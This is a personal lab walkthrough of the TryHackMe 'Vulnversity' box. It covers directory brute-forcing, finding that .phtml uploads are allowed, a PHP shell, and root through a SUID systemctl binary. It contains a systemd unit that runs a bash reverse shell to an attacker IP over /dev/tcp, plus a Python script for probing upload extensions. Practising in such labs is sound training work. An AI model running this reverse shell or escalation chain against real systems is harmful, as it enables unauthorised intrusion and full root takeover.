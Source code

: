 # TRY HACK ME NOTES
> LAB : Vulversity
1. Reconnaissance  : Search active services on target system, OS, Versions
2. Bruteforce directories using gobuster to find any vulnerable entry points
     - /internal/ allowed to upload files
  
3. Check what kind of files are allowed to upload or can we execute those files
     - Use Burp or python script
     - We can upload .phtml
4. Upload a phpshell to server
5. Start a netcat session for phpshell and gain a non-privileged access
6. Persorm Linux Privilege excalation using SUID
  - How to search for all binaries with SUID bit set
   -  find / -perm -u=s -type f 2>/dev/null
   -  Identify a binary with root as owner
   -  Use https://gtfobins.github.io/gtfobins/systemctl/ to find how to exploit
   -  Created root.service with code:
   -    [Unit]
        Description=root
        
        [Service]
        Type=simple
        User=root
        ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<Attacker-IP-Address>/4242 0>&1'
        
        [Install]
        WantedBy=multi-user.target
    - Hosted file using python server
    - downloaded file to /tmp on target using wget
    - start a listner on attcker machine
    - enabled and started the service
    - We get a root access

 ISSUES: 
 1. curly quote V/S straight quote in bash command.

 2. Python script used to enumerate file extension allowed to upload:
================================================================
import requests
import os

ip = "<Server Ip Address >"
url = f"http://{ip}:3333/internal/index.php"

original = "index.php"
filename = "index"
extensions = [".php", ".php3", ".php4", ".php5", ".phtml"]

for ext in extensions:
    new_filename = filename + ext
    os.rename(original, new_filename)

    with open(new_filename, "rb") as f:
        files = {"file": f}
        r = requests.post(url, files=files)


        if "Extension not allowed" in r.text:
            print(f"{ext} extension not allowed")
        else:
            print(f"{ext} seems to be allowed??")

    original = new_filename
os.rename(new_filename, "index.php")
===============================================================



